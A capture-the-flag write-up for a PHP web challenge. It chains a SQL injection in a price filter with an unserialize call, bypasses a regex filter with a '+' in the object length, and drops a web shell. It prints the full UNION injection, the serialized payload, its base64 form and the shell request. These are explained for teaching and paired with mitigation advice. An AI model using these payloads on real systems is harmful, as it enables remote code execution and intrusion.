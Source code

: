 ```yaml
---
title: Everyone loves canteen food
author: Poory
description: Welcome to the canteen's online menu, where you can check out the daily specials and their prices. But is everything as appetizing as it seems?
categories:
    - Web
year: 2025
challengefiles: canteenfood.zip
published: "2025-05-01"
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** **PHP** website offering canteen food which can be filtered by a simple input
    **- Key Discoveries:** Input is processed via **SQL** and **PHP** `unserialize`
    **- Vulnerability:** The **SQL** query is injectable making the used **PHP** `unserialize` exploitable
    **- Exploitation:** Bypassing the **PHP** `unserialize` object regex via a `+` before the `uiv` part will result in RCE

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to exploit a **PHP** unserialize vulnerability via **SQL** injection, bypassing some weak regex filters.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Having a look at the website, we are welcomed by a beautiful gif showing all of the available food and some price input field with which we can filter the offered food. It is displaying all the items cheaper than the provided value:

![landing page](ctf/writeups/cscg/everyonelovescanteenfood/landing_page.png "landing page")

Clicking on the linked admin panel at the top greets us with a warm welcome message:

```
Only access allowed for canteen admin!!!
```

For this challenge, the source code is provided. The web server is implemented with plain **PHP** v7.1 - the exact **PHP** version will be important later. The flag itself is hidden in a `flag.txt` file with restrictive access flags and is being controlled by the `root` user. Next to the flag file is a `readflag` binary with which we can read out the flag. This is a typical RCE challenge setup.
<span>
The web server uses the [MVC pattern](https://de.wikipedia.org/wiki/Model_View_Controller) to provide the interactive functionality. There is an `AdminController.php` and a `CanteenController.php`, each with its appropriate `AdminModel.php` and `CanteenModel.php`. In addition to the capabilities of a normal user, the admin user can also access the logs of the website with the functionality in its controller. In the `AdminModel`, the class has some interesting functions like `__wakeup`, which will become important later. The `CanteenModel`, which is used by every normal user, implements two functions to obtain the data shown on the landing page. The first one `getFood` just fetches all of the food from the database, adds a log to `log.txt` and rerandomizes the prices for each food. The second one `filterFood` filters the shown food by applying the user input to a **SQL** query and thus fetching only a limited amount of the food. Both of these functions also contain some functionality for unserialization in specific cases. Having a closer look at these functions immediately reveals the following vulnerabilities:

- **SQL** injection - The user input `$price_param` for the `filterFood` function is concatenated with the query without any sanitization and prepared statements:

```php
$sql = "SELECT * FROM food where price < " . $price_param;
```

- **PHP** Unserialize - Probably for backwards compatibility, some parts of the **SQL** query result containing the `oldvalue` attribute are deserialized:

```php
if($obj->oldvalue !== '') {
    $dec_result = base64_decode($obj->oldvalue);
    if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
        return 'Not allowed';
    }
    $uns_result = unserialize($dec_result);
```

Having these vulnerabilities, `filterFood` is the more interesting function, as we control the input parameter for this function.

# 3. SQL injection<a id="SQL injection"></a>
At first, we should analyze how to exploit the **SQL** injection as the called `unserialize` function is dependent on the results of the **SQL** query. The `SELECT` query is ideal for a `UNION` attack with which we can append arbitrary data to the rows from the database matching the initial query. So, using an **SQL** injection payload like:

```sql
500 UNION SELECT 0 AS id, 'Some very juicy meal' AS name, '' AS oldvalue, 0 AS price;
```

we get back the following confirming our successful **SQL** injection:

![sqli](ctf/writeups/cscg/everyonelovescanteenfood/sqli.png "sqli")

This means if we add a legitimate value for `oldvalue`, our user input will be processed by `unserialize`.

# 4. PHP unserialize<a id="php unserialize"></a>
Deserialization is a process where serialized data is converted back to actual data. The **PHP** `unserialize` will take a string and will create instantiated objects, arrays, integers, booleans and other stuff. Each of these data types has its own prefix. For example objects got the prefix `O:` followed by the length of the class name, the class name itself as a string and its attribute fields also written with the serialized notation like for example `O:1:"a":1:{s:5:"value";s:3:"100";}`. The **PHP** [documentation](https://www.php.net/manual/en/function.unserialize.php) describes some interesting internal behaviour:

```
If the variable being unserialized is an object, after successfully reconstructing the object, PHP will automatically attempt to call the `__unserialize` or `__wakeup()` methods (if one exists).
```

In the `AdminModel.php` we will find the implementation of the `AdminModel` for logging purposes. The class also has a `__wakeup` method creating an arbitrary file with arbitrary content:

```php
AdminModel {
    ...
    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);
    }
    ...
}
class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);
    }
}
```

This is a great target for the deserialization. So maybe we can just inject with the **SQL** vulnerability some payload like:

```php
O:10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

which creates a **PHP** file named `innocent.php` executing arbitrary commands given via the URL parameter `cmd`. Unfortunately, there is a little twist.
Before the `unserialize` call, the data is checked with a regex filter:

```php
if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
    return 'Not allowed';
}
```

The regex checks for strings starting with the prefix `O:`, followed by some digits and an arbitrary string. There are several data types you can deserialize, like integer, boolean, arrays, but also custom objects by starting with `C:`. Sadly, custom objects are not applicable in this case as none of the **PHP** classes implement `Serializable` and will give us RCE.
<span>
There must be another way to bypass the regex, something that's not obvious at first glance. The code is the best documentation, so let's dive into the implementation of **PHP** `unserialize`. We have to be careful with the version as the challenge doesn't use the latest **PHP** version, but v7.1. For the implementation, **PHP** uses the [re2c](https://re2c.org/) lexer generator. The length value `uiv` of the serialized object is parsed by the `parse_uiv` function, which implements some [interesting behaviour](https://github.com/php/php-src/blob/PHP-7.1.3/ext/standard/var_unserializer.re#L367). If it exists, it will skip a leading `+` character. With this information, we can easily bypass the regex as it only checks for digits in the `uiv` part.

# 5. Exploitation<a id="exploitation"></a>
Now we have to chain our vulnerabilities. For the `unserialize` call, we will use the following payload, which is very similar to the already mentioned one, but this time we add a `+` before the `uiv` part:

```php
O:+10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

Because of the implementation of the `oldvalue` check, we have to encode it with base64. Adding it to our **SQL** injection, we get our payload:

```php
500 UNION SELECT 0 AS id, 'payload' AS name, 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTI6Imlubm9jZW50LnBocCI7czoxMDoibG9nY29udGVudCI7czozNzoiPD9waHAgZWNobyhzaGVsbF9leGVjKCRfR0VUWydjbWQnXSkpOyI7fQ==' AS oldvalue, 0 AS price;
```

Submitting this payload via the price input field will create a new **PHP** file. Accessing the server on the path `/innocent.php?cmd=/readflag` will then give us the flag.

# 5. Mitigation<a id="mitigation"></a>
This web server has some fundamental flaws. Starting with the **SQL** injection, you should always validate and sanitize any input. This vulnerability could have been simply prevented by using prepared statements. Moreover, the use of `unserialize` always comes with its risks, as presented with this challenge. So don't use `unserialize` if not necessary. Finally, don't use regex for filtering! Instead, rely on **PHP**'s built-in filtering functions like `filter_var` and others. Using regex for input validation can be overly error-prone, especially with complex patterns or edge cases, and may lead to unexpected behavior and security risks.


# 7. Flag<a id="flag"></a>
dach2025{sh1ty_r3g3x_w0nt_s4fe_y0u}
